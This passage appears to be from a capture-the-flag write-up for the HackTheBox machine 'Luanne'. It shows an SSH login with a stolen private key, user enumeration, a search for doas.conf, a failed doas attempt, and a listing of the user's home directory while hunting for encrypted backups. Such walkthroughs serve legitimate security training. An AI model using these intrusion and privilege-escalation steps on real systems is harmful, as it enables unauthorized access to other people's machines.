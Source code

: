 ![image-20240129033922911](./Luanne.assets/image-20240129033922911.png)

Get ssh private key and use it to login using `ssh -i id_rsa`:

```console
└─╼$ ssh -i id_rsa r.michaels@$IP
Last login: Fri Sep 18 07:06:51 2020
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$ id
uid=1000(r.michaels) gid=100(users) groups=100(users)
luanne$ uname -a
NetBSD luanne.htb 9.0 NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020  mkrepro@mkrepro.NetBSD.org:/usr/src/sys/arch/amd64/compile/GENERIC amd64
```

### r.michaels -> root

- linux has sudo enum, freebsd has **doas** enum
  - but the password of r.michael is unknown

```console
luanne$ find / -name doas.conf 2>/dev/null | xargs cat
permit r.michaels as root
luanne$ doas su root
Password:
doas: authentication failed
```

- enum **encrypted** data and **decryption** key

```console
luanne$ ls -al
total 52
dr-xr-x---  7 r.michaels  users   512 Sep 16  2020 .
drwxr-xr-x  3 root        wheel   512 Sep 14  2020 ..
-rw-r--r--  1 r.michaels  users  1772 Feb 14  2020 .cshrc
drwx------  2 r.michaels  users   512 Sep 14  2020 .gnupg
-rw-r--r--  1 r.michaels  users   431 Feb 14  2020 .login
-rw-r--r--  1 r.michaels  users   265 Feb 14  2020 .logout
-rw-r--r--  1 r.michaels  users  1498 Feb 14  2020 .profile
-rw-r--r--  1 r.michaels  users   166 Feb 14  2020 .shrc
dr-x------  2 r.michaels  users   512 Sep 16  2020 .ssh
dr-xr-xr-x  2 r.michaels  users   512 Nov 24  2020 backups
dr-xr-x---  4 r.michaels  users   512 Sep 16  2020 devel
```